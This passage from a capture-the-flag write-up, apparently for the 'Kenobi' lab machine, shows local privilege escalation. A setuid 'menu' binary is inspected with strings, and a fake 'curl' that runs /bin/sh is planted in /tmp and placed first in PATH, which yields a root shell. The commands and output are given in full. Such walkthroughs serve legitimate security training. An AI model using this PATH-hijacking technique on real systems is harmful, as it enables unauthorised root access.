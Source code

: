 ```console
** Enter your choice :4

 Invalid choicekenobi@kenobi:~$
```
It looks like this runs common if-else statements and based on input it executes some tasks.
Let see if we can understand the executable with strings command.
```console
kenobi@kenobi:~$ strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
__isoc99_scanf
puts
__stack_chk_fail
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
UH-`
AWAVA
AUATL
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice

```
From this we can guess the file has a logic as follow
```
if input=1
  run curl -I localhost
elif input=2
  run uname -r
elif input=3
  run ifconfig
else
  print Invalid choice
```
The commands the programes are running are not full paths. So we can manipulate the path to gain a root shell.
```console
kenobi@kenobi:~$ cd /tmp/
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whoami
root
# cd /root
```